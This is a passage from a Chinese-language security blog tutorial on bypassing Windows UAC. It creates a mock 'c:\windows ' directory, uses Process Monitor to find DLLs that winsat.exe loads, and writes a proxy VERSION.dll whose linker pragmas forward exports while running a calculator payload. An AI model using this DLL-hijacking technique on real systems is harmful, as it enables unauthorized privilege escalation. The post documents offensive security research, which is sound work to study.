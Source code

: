 ```
md "\\?\c:\windows "
```

### 3、记录winsat.exe的启动过程，寻找启动时加载的dll

这里可以使用Process Monitor，筛选出启动过程中结果为"NAME NOT FOUND"的记录，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-8/2-4.png)

因此，可供利用的dll名称如下：

- VERSION.dll
- WINMM.dll
- POWRPROF.dll
- dxgi.dll
- dwmapi.dll
- d3d10_1.dll
- d3d1-_1core.dll
- d3d11.dll
- d3d10core.dll
- QUARTZ.dll

任选一个即可

### 4、编写payload.dll，指定导出函数

这里可以使用exportstoc，下载地址：

https://github.com/michaellandi/exportstoc

详细使用说明可参考之前的文章[《Study Notes Weekly No.1(Monitor WMI & ExportsToC++ & Use DiskCleanup bypass UAC)》](https://3gstudent.github.io/3gstudent.github.io/Study-Notes-Weekly-No.1(Monitor-WMI_ExportsToC++_Use-DiskCleanup-bypass-UAC)/)

例如这里选择`VERSION.dll`，劫持的原dll路径为`c:\\Windows\\system32\\version.dll`，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2019-2-8/2-5.png)

添加payload为启动计算器，最终的代码如下：


```
#include "stdafx.h"
#include <iostream>
#include <windows.h>

using namespace std;

#pragma comment (linker, "/export:GetFileVersionInfoA=c:\\windows\\system32\\version.GetFileVersionInfoA,@1")
#pragma comment (linker, "/export:GetFileVersionInfoByHandle=c:\\windows\\system32\\version.GetFileVersionInfoByHandle,@2")
#pragma comment (linker, "/export:GetFileVersionInfoExW=c:\\windows\\system32\\version.GetFileVersionInfoExW,@3")
#pragma comment (linker, "/export:GetFileVersionInfoSizeA=c:\\windows\\system32\\version.GetFileVersionInfoSizeA,@4")
#pragma comment (linker, "/export:GetFileVersionInfoSizeExW=c:\\windows\\system32\\version.GetFileVersionInfoSizeExW,@5")
#pragma comment (linker, "/export:GetFileVersionInfoSizeW=c:\\windows\\system32\\version.GetFileVersionInfoSizeW,@6")
#pragma comment (linker, "/export:GetFileVersionInfoW=c:\\windows\\system32\\version.GetFileVersionInfoW,@7")
#pragma comment (linker, "/export:VerFindFileA=c:\\windows\\system32\\version.VerFindFileA,@8")
#pragma comment (linker, "/export:VerFindFileW=c:\\windows\\system32\\version.VerFindFileW,@9")
#pragma comment (linker, "/export:VerInstallFileA=c:\\windows\\system32\\version.VerInstallFileA,@10")
```